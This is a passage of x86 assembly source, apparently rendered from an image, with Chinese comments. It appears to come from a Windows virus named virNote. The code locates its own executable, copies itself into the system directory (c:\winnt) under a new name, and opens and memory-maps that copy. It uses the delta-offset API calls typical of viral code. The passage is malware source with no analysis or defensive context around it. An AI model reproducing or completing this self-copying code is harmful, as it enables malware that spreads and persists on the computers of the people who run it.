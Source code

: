 ```assembly
        mov al,byte ptr [ebx+lpszNewName+esi]
        .break .if al==0
        mov byte ptr [ebx+@destFile+edi],al
        inc esi
        inc edi
    .endw
    mov byte ptr [ebx+@destFile+edi],0   ;@destFile中存放了目标文件的绝对路径

    ;取当前程序运行路径c:\winnt\virNote.exe
    mov eax,50h
    push eax
    lea eax,[ebx+szBuffer]
    push eax
    xor eax,eax
    push eax
    call [ebx+_GetModuleFileName]

    ;将当前程序运行文件szBuffer拷贝到系统目录@destFile
    mov eax,FALSE
    push eax
    lea eax,[ebx+@destFile]
    push eax
    lea eax,[ebx+szBuffer]
    push eax
    call [ebx+_CopyFile]

    ;打开命名后的新文件@destFile
    push NULL
    mov eax,FILE_ATTRIBUTE_ARCHIVE
    push eax
    mov eax,OPEN_EXISTING
    push eax
    push NULL
    mov eax,FILE_SHARE_READ or FILE_SHARE_WRITE
    push eax
    mov eax,GENERIC_READ
    push eax
    lea eax,[ebx+@destFile]
    push eax
    call [ebx+_CreateFile]

    mov [ebx+hFile],eax   ;将文件句柄送入相应变量

    push NULL
    push eax
    call [ebx+_GetFileSize]
    mov [ebx+dwFileSize],eax

    ;建立内存映射
    xor eax,eax
    push eax
    push eax
    push eax
    mov eax,PAGE_READONLY
    push eax
    xor eax,eax
    push eax
    mov eax,[ebx+hFile]
    push eax
    call [ebx+_CreateFileMapping]
    mov [ebx+hMapFile],eax

    ;将文件映射到内存
```